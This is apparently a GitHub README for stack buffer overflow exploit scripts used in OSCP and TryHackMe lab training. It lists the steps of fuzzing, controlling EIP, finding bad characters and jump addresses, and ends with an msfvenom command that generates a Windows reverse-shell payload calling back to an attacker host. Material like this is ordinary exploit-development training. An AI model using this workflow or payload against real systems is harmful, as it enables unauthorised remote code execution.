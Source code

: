 # BufferOverflow
Buffer Overflow Scripts for OSCP and https://www.tryhackme.com/room/bufferoverflowprep


*   Make dir in which files should be copied and execute
    `/opt/bufferOverflow/bash_scripts/prepare.sh`
    TODO: Set prefix

*   Always run Immunity Debugger as Admin in order to see admin services
    Open script and Press F9 to continue (script is paused at the beginning)
*   Execute mona script (not neccessarily needed afaik)
    `!mona config -set workingfolder c:\mona\%p`

*   Find offset that crashes the applications
    `python3 fuzzer.py`

*   Control EIP
    len: Bytes to crash + 400:
    `pattern_create.rb -l <len>`
    Enter payload into payload variable in exploit_1.py
    Re-open immunity debugger & scripts
    `python3 exploit_1.py`
    `!mona findmsp -distance <len>`
    EIP contains normal pattern : ... (offset XXXX)
    <!-- Enter offset in exploit_2.py -->
    Set offset with this script
    `bash_scripts/set-offset.sh`
    Restart imminuity debugger + F9,
    `python3 exploit_2.py`
    verify whether EIP is now 42424242 ("BBBB")

*   Finding Bad Characters (OSCP version)
    Restart immunity debugger + F9
    Enter offset in exploit_3.py
    `python3 exploit_3.py`
    ID: ESP Address - right click - Follow in dump
    Find first bad char in bottom left windows, remove it and repeat

*   Finding a jump point
    Don't need to restart immunity debugger
    `!mona jmp -r esp -cpb "\x00 <AND ALL BAD CHARS>"`
    view -> log
    Pick an address, enter it in exploit_4.py

*   Generate Payload
    `msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=4444 EXITFUNC=thread -b "\x00<BAD-CHARS>" –e x86/shikata_ga_nai -f c`
    Enter in payload in exploit_4.py


*   Notes
    *   Could not connect -> F9 to resume the debugger

---

## Easter-Egg
My deploy key with the username kali@kali is associated with the git user arponsarker.
